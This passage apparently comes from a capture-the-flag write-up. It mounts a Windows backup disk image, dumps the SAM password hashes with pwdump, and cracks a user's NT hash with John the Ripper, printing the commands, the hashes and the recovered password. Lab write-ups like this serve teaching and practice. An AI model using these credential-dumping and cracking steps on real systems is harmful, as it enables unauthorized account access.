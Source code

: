 It mounts a single file and not the actual contents:
```
# ls -l
total 0
-r--r--r-- 1 root root 15999492096 Apr 28 10:19 vhdi1
```

I then use the `mmls` utility to display the partition layout and calculate the offset of the partition: Block size x Start -> 512 * 128 = 65536
```
# mmls -aB vhdi1
DOS Partition Table
Offset Sector: 0
Units are in 512-byte sectors

      Slot      Start        End          Length       Size    Description
002:  000:000   0000000128   0031248511   0031248384   0014G   NTFS / exFAT (0x07)
```

Then I mount the image to another directory, specifying the proper offset:
```
# mount -o ro,noload,offset=65536 vhdi1 /mnt/bastion_backup
root@ragingunicorn:/mnt/vhd# ls -l /mnt/bastion_backup/
total 2096729
drwxrwxrwx 1 root root          0 Feb 22 07:39 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 10  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 10  2009  config.sys
lrwxrwxrwx 2 root root         25 Jul 14  2009 'Documents and Settings' -> /mnt/bastion_backup/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22 07:38  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 13  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 11  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22 07:39  Recovery
drwxrwxrwx 1 root root       4096 Feb 22 07:43 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22 07:39  Users
drwxrwxrwx 1 root root      16384 Feb 22 07:40  Windows
```

I now have access to the system and SAM hive and I dump the hashes from the database:
```
/mnt/bastion_backup/Windows/System32/config# pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

With John The Ripper I can crack the hash for user `L4mpje`: `bureaulampje`
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```
